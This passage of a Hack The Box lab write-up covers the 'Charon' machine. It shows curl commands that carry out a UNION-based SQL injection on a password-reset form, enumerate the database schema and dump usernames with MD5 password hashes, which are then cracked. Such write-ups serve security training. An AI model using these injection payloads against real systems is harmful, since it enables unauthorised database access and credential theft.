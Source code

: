 #### retrieving databases

proceeding with the injections I begin by retrieving the databases, in this case to reflect the injection it was needed to place a group_concat(schema_name) in the second tag from the union injection, group_concat will group all the output in one line.

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(schema_name),3,\"x@charon.htb\" from information_schema.schemata-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>information_schema,supercms  
```

#### retrieving tables

retrieving the tables from the database

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(table_name),3,\"x@charon.htb\" from information_schema.tables where table_schema=\"supercms\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>groups,license,operators
```

#### retrieving columns 

retrieving the columns from the tables of the database

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(column_name),3,\"x@charon.htb\" from information_schema.columns where table_schema=\"supercms\" and table_name=\"operators\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>id,__username_,__password_,email 
```

#### retrieving data
retrieve all data from the columns where the email is not "test", resulting tin the retrieval of md5 hashed passwords

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(__username_,0x3a,__password_,0x3a,email),3,\"x@charon.htb\" from operators where email not like '%test%'-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}' | tr "," "\n"
 Email sent to: x@charon.htb=>super_cms_adm:0b0689ba94f94533400f4decd87fa260:adm@nowhere.com
decoder:5f4dcc3b5aa765d61d8327deb882cf99:decoder@nowhere.com
```

### cracking passwords

The hashes are cracked with crackstation

![](assets/img/htb/charon/crackstation_1.png)
